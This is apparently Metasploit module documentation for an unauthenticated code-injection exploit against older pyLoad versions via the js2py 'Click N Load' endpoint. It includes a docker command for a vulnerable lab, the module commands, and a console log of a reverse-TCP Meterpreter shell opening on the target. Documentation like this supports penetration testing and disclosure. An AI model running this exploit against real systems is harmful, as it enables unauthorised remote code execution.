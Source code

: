 ## Vulnerable Application

pyLoad versions prior to 0.5.0b3.dev31 are vulnerable to Python code injection due to the pyimport
functionality exposed through the js2py library. An unauthenticated attacker can issue a crafted POST request
to the flash/addcrypted2 endpoint to leverage this for code execution. pyLoad by default runs two services,
the primary of which is on port 8000 and can not be used by external hosts. A secondary "Click 'N' Load" service runs on
port 9666 and can be used remotely without authentication.

## Verification Steps

1. Start a vulnerable instance of pyLoad using docker
2. Start msfconsole
3. Run: `use exploit/linux/http/pyload_js2py_exec`
4. Set the `RHOST`, `PAYLOAD` and payload associated options
5. Run: `run`

### Docker Setup

```
docker run -d \
  --name=pyload-ng \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -p 8000:8000 \
  -p 9666:9666 \
  --restart unless-stopped \
  lscr.io/linuxserver/pyload-ng:version-0.5.0b3.dev30
```

## Options

## Scenarios

### pyLoad 0.5.0b3.dev30 via Docker

```
msf > use exploit/linux/http/pyload_js2py_exec 
[*] Using configured payload cmd/unix/generic
msf exploit(linux/http/pyload_js2py_exec) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(linux/http/pyload_js2py_exec) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/pyload_js2py_exec) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf exploit(linux/http/pyload_js2py_exec) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 172.17.0.2:40830) at 2023-02-15 15:28:52 -0500

meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : f03ec089a4fe
OS           : Linux 6.0.18-200.fc36.x86_64 #1 SMP PREEMPT_DYNAMIC Sat Jan 7 17:08:48 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/config/data
meterpreter > 
```

